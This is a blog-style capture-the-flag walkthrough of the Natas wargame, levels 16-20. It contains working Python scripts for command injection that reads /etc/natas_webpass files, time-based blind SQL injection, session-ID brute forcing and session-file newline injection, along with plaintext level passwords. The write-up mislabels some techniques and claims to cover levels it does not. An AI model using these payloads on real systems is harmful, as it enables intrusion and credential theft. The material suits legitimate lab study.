





# Blog 1: Getting Started with Natas Part 2 – Web Security Fundamentals

## Introduction
Continuing our journey through the Natas wargame, we dive deeper into web security fundamentals. In this blog, we explore levels 16-30, focusing on advanced topics like SQL injection, file upload vulnerabilities, encryption, and command injection. By the end of this walkthrough, you’ll have a solid understanding of common web security vulnerabilities and how to exploit them effectively.

---

## Levels Overview

- **Levels Covered:** 16-20
- **Theme:** Advanced web security concepts, including SQL injection, command injection, file upload vulnerabilities, and encryption.

---

## Level-by-Level Walkthrough

### Level 16: Blind SQL Injection

- **Commands/Tools Introduced:** SQL Injection, Command Injection

#### Solution Outline:
1. **Analysing the source code:**
   The source code is designed to prevent typical attacks like SQL injection and XSS by restricting special characters. Instead, it utilizes the grep command to search for strings based on user input, providing a way to extract information from the underlying files.

2. **Bypassing the logic:**
    When a user inputs a character, such as "a," the system executes grep -i a dictionary.txt, which retrieves all entries containing "a." The goal is to uncover the password located in /etc/natas_webpass/natas17.

3. **Injection Strategy:**
    To check for the existence of a character (e.g., "b") in the natas17 file, the user can construct the command $(grep b /etc/natas_webpass/natas17)Africans. This command translates to grep -i $(grep b /etc/natas_webpass/natas17)Africans dictionary.txt in the backend. If "b" is found, the inner command returns "b," leading to a search for "bAfricans." If "b" is absent, the inner command is empty, and the search falls back to just "Africans."

4. **Evaluation:**
    The response depends on whether "b" exists in the natas17 file. If "b" is present, a result will be returned for "bAfricans." If not, the result for "Africans" will be empty, indicating that "b" is indeed in the file.

5. **Automating the Process:**
    To automate the process, a Python script can be used to iterate through the character set and determine the password character by character. After this, we can use regex to extract the password from the response.
    ```python
    import requests
    from requests.auth import HTTPBasicAuth

    auth = HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo")

    filteredchars = ""
    passwd = ""
    allchars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890"
    for char in allchars:
        r = requests.get(
            "http://natas16.natas.labs.overthewire.org/?needle=dooms$(grep "
            + char
            + " /etc/natas_webpass/natas17)",
            auth=auth,
        )

        if "dooms" not in r.text:
            filteredchars = filteredchars + char
            print(filteredchars)

    for i in range(32):
        for char in filteredchars:
            r = requests.get(
                "http://natas16.natas.labs.overthewire.org/?needle=dooms$(grep ^"
                + passwd
                + char
                + " /etc/natas_webpass/natas17)",
                auth=auth,
            )

            if "dooms" not in r.text:
                passwd = passwd + char
                print(passwd)
                break
    ```


#### Password: `EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC`

---

### Level 17: Advanced SQL Injection

- **Commands/Tools Introduced:** SQL Injection, Command Injection, Time-Based Blind SQL Injection

#### Solution Outline:
1. **Understanding the Challenge:**
   The level presents a search feature that allows users to search for specific strings in the database. This time we don't have any feedback on the search results, making it a blind SQL injection challenge.

2. **Exploiting the Vulnerability:**
    The goal is to extract the password from the users table in the natas17 database. By crafting SQL queries that return true or false based on specific conditions, we can extract the password character by character. Here, we use a time-based blind SQL injection technique to determine the presence of characters in the password.

3. **Automating the Process:**
    I came up with a Python script that iterates through the character set and extracts the password character by character using time delays to determine the presence of characters in the password.
    ```python
    import requests
    from time import *

    characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
    username = "natas17"
    password = "EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"
    Url = "http://natas17.natas.labs.overthewire.org"

    session = requests.session()
    current_password = list()

    while True:
        for character in characters:
            startTime = time()
            response = session.post(
                Url,
                data={
                    "username": 'natas18" AND password LIKE BINARY "'
                    + "".join(current_password)
                    + character
                    + '%" AND SLEEP(5) #'
                },
                auth=(username, password),
            )
            endTime = time()
            if endTime - startTime > 5:
                print("Password so far " + "".join(current_password) + character)
                current_password.append(character)
                break
        if len(current_password) == 32:
            break
    ```


#### Password: `6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ`

---

### Level 18: Weak Session Management

- **Commands/Tools Introduced:** Session Management, Weak Session Tokens

#### Solution Outline:
1. **Understanding the Challenge:**
   At first, it looks like a simple SQLi challenge, but the real vulnerability lies in the session management. We start by looking at the source code, but no luck in understanding the system. Next we look at Burp Suite to intercept the request and see the request. 

2. **Exploiting the Vulnerability:**
    We notice that the session ID is a weak number. We try brute-forcing the session ID and find the password.

3. **Automating the Process:**
    I came up with a Python script that iterates through the session ID and extracts the password.
    ```python
    import requests

    target = "http://natas18.natas.labs.overthewire.org"
    auth = ("natas18", "6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ")
    params = {"username": "natas18", "password": "admin"}

    max_s_id = 640
    s_id = 1
    while s_id <= max_s_id:
        print("Trying with PHPSESSID = " + str(s_id))
        cookies = {"PHPSESSID": str(s_id)}
        r = requests.get(target, auth=auth, params=params, cookies=cookies)

        if "You are an admin" in r.text:
            print(r.text)
            break

        s_id += 1
    ```

#### Password: `tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr`


---

### Level 19: Session Management Pt 2

- **Commands/Tools Introduced:** Session Management, Weak Session Tokens

#### Solution Outline:
1. **Understanding the Challenge:**
   The challenge is like the previous one, but this time the session ID is not sequential. We need to find a way to generate the session ID.

2. **Exploiting the Vulnerability:**
   Once, we capture the session ID, we notice that it is encoded in ASCII. We use the decoder in Burp Suite to decode the session ID and see that the cookie is a number suffixed by "-natas20". Here, natas20 is the username.

3. **Automating the Process:**
    We change the script to encode the session ID in ASCII and append "-natas20" to it.
    ```python
    import requests

    target = "http://natas19.natas.labs.overthewire.org"
    auth = ("natas19", "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr")
    params = {"username": "admin", "password": "something"}

    max_s_id = 640
    s_id = 1
    while s_id <= max_s_id:
        # Suffix "-natas20" and encode to ASCII
        session_id = f"{s_id}-admin"

        print("Trying with PHPSESSID = " + session_id)
        cookies = {"PHPSESSID": session_id.encode("ascii").hex()}
        r = requests.get(target, auth=auth, params=params, cookies=cookies)

        if "regular user" not in r.text:
            print("Found! Session ID: " + session_id)
            print(r.text)
            break
        s_id += 1

    ```

#### Password: `p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw`




---

### Level 20: Session Management Pt 3

- **Commands/Tools Introduced:** Session Management

#### Solution Outline:

1. **Understanding the Challenge:**
   The challenge involves a session management system where the session ID is handled manually instead of using PHP's built-in session handling.This time we have a bunch of my* functions; open, close, read, write, etc. These are registered with session_set_save_handler which, per PHP documentation, “sets user-level session storage functions.”

2. **Exploiting the Vulnerability:**
    The `mywrite` function stores session variables as space-delimited lines, which `myread` then parses back into `$_SESSION`. The vulnerability is that user input, such as `name=foo \n admin 1`, can introduce newlines in the session file, effectively injecting an extra session variable. This allows an attacker to set `$_SESSION["admin"]` to `1`, bypassing access controls and enabling the `print_credentials` function to reveal sensitive information, like a password.

3. **Automating the Process:**
    We come up with a python script to set the user name to `admin\nadmin 1` and get the password.
    ```python
    import requests

    target = "http://natas20.natas.labs.overthewire.org"
    auth = ("natas20", "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw")

    params = {"name": "admin\nadmin 1", "debug": ""}  # This is the key part
    cookies = {}

    r = requests.get(target, auth=auth, params=params, cookies=cookies)

    # Retrieve PHPSESSID if it exists in response cookies
    phpsessid = r.cookies.get("PHPSESSID", None)
    print(r.text)

    if phpsessid:
        print("#")
        params = {"debug": ""}
        cookies = {"PHPSESSID": phpsessid}

        # Second request using the same PHPSESSID
        r = requests.get(target, auth=auth, params=params, cookies=cookies)
        print(r.text)
    else:
        print("PHPSESSID cookie not found in the first request response.")
    ```

#### Password: `BPhv63cKE1lkQl04cE5CuFTzXe15NfiH`


---

## Key Takeaways

- Mastery of foundational web security concepts like SQL injection, command injection, and session management is crucial for understanding how attackers exploit web applications.
- By approaching each Natas level incrementally, users gain hands-on experience in analyzing source code, identifying vulnerabilities, and implementing automation to streamline attacks.
- Each solution highlights the importance of creativity and careful observation in bypassing security measures, especially when direct feedback is unavailable, as in blind SQL injection challenges.

---

## Cheatsheet for This Week

- **SQL Injection (Blind & Time-Based):**  
  - Check for vulnerabilities using SQL queries that manipulate time delays or conditional responses to reveal hidden information without direct output.
  - Use automation to brute-force character-by-character when no direct response is provided.

- **Command Injection:**  
  - Observe where user input may be executed as a command. Wrapping input in functions or sub-commands (e.g., `$(command)`) can exploit back-end command processing.

- **Session Management:**  
  - Test session identifiers for patterns or weak entropy, such as sequential or predictable tokens.
  - In cases where custom session handling is used, investigate for improper encoding or parsing of user input that could allow session variable manipulation.

- **Python Automation Tips:**  
  - Use the `requests` library to automate repetitive tasks and brute-force attacks, especially for character-based extraction.
  - Incorporate time-based logic in Python scripts to identify delays that indicate conditional responses, useful for blind SQL injection.

---

## Progress Gallery

*(Add images for each level completed to visually track progress.)*

---

## Software Vulnerability Insights

### Key Vulnerabilities Exploited:

1. **SQL Injection:**  
   - Leveraged in levels with blind injection, enabling data extraction even when results aren’t directly visible to the user. Used to exploit databases by injecting SQL statements and using conditional or time-based responses.

2. **Command Injection:**  
   - Occurs when the system executes arbitrary commands due to unsanitized user input, as seen in levels utilizing `grep`. By crafting input that invokes sub-commands, sensitive data is extracted from restricted directories.

3. **Weak Session Management:**  
   - Levels with weak or predictable session IDs highlight the importance of robust session token generation. Exploiting these tokens through brute force or decoding reveals restricted information by allowing unauthorized access.

4. **Custom Session Handling Vulnerabilities:**  
   - Vulnerabilities in custom session handling mechanisms allow attackers to manipulate session variables directly, bypassing access controls. Injecting newline characters or manipulating session file data can elevate privileges, showcasing the risk of improperly handling session storage and parsing user input.

These insights underscore the importance of securing both input handling and session management in web applications, as these vulnerabilities are among the most commonly exploited in real-world scenarios.